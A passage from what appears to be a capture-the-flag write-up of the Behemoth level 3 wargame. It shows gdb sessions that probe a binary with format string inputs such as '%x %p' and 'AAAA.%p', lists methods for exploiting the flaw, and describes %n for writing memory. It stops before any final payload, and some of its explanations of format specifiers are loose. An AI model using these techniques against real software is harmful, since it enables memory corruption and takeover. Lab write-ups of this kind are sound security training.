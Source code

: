    0x080484dc <+95>:	ret    
End of assembler dump.
(gdb) 

{% endhighlight %}

After looking at our disassembly we can see that printf is called quite a bit we know that printf is used to show information on the screen not only that but it allows for specific string formatting.

Knowing this is a challenge box and we haven't seen a format string vulnerability we will make it out first attack vector to test.

To test this vulnerability we are going to feed in %x << when used in a string format it pops our stack pointer and displays the address. We can also utilize %p that will print the full pointer data. If it is vulnerable we will be able to see a pointer address.

{% highlight bash %}
(gdb) run
Starting program: /games/behemoth/behemoth3 
Identify yourself: %x %x %x %p %p %p
Welcome, c8 f7fcac20 0 (nil) 0xf7ffd000 0x25207825

aaaand goodbye again.
[Inferior 1 (process 6324) exited normally]

{% endhighlight %}

Looks like it is vulnerable to this form of attack. There are various methods we can use to exploit this type of vulnerability.

Short Write - Writing twice instead of four times utilizing the %h which cast types to short. 

Stack Popping - Allows to get ahead of the stack pointer allowing for more movement in limited space.

Direct Parameter Access - Improved concept of stack popping allows for an individual to access areas of the stack directly and write to it.

For this example direct parameter access is what will be used. Bit of information is needed before we continue.

{% highlight bash %}
%p - prints current pointer
%x - print current pointer lowercase hex
%n - write arbitrary values to current pointer
%u - used to create padding of values to manipulate the pointer
{% endhighlight %}

So in order to exploit this we need to find the beginning of our information on the stack. To do this we are going to utilize our famous "AAAA" but in addition we are going to add a few "%p" to the list so we can get the addresses.

{% highlight bash %}
(gdb) run
Starting program: /games/behemoth/behemoth3 
Identify yourself: AAAA.%p.%p.%p.%p.%p.%p
Welcome, AAAA.0xc8.0xf7fcac20.(nil).(nil).0xf7ffd000.0x41414141
{% endhighlight %}
